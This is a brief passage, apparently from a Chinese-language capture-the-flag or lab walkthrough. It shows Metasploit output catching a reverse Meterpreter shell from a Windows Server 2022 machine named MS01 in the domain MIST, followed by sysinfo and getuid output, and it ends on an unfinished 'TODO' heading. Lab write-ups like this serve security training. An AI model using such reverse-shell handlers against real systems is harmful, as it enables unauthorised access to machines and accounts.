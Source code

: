 
等待片刻之后，收到回连的shell

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.8:8888 
[*] Sending stage (201798 bytes) to 10.10.11.17
[*] Meterpreter session 2 opened (10.10.16.8:8888 -> 10.10.11.17:59059) at 2024-04-08 13:09:17 +0800

meterpreter > sysinfo 
getComputer        : MS01
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : MIST
Logged On Users : 7
Meterpreter     : x64/windows
meterpreter > getuid 
Server username: MIST\Brandon.Keywarp
```

## User - MIST\Brandon.Keywarp

TODO 未完成
